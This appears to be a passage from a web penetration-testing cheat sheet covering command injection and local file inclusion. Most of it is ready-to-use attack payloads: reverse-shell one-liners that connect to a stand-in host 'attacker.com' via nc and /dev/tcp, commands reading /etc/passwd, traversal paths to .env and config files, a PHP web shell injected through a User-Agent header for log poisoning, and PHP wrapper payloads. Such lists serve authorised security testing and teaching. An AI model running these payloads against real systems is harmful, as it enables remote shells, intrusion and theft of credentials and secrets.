 ### Advanced Payloads
```bash
# Reverse shell
; nc -e /bin/bash attacker.com 4444
; bash -i >& /dev/tcp/attacker.com/4444 0>&1

# File operations
; cat /etc/passwd
; ls -la /
```

### Testing Areas
- File upload processing
- System administration functions
- Report generation
- Backup/restore functions

---

## 12. Local File Inclusion (LFI)

### 🎯 Target: File inclusion mechanisms

### Basic LFI Payloads
```bash
# System files
/etc/passwd
/etc/hosts
/proc/version
/var/log/apache2/access.log

# Application files
../app.py
../config.php
../.env
```

### Log Poisoning
```bash
# Poison log files with PHP code
User-Agent: <?php system($_GET['cmd']); ?>
```

### Wrapper Exploitation
```bash
# PHP wrappers
php://filter/convert.base64-encode/resource=../config.php
data://text/plain,<?php phpinfo(); ?>
```

---
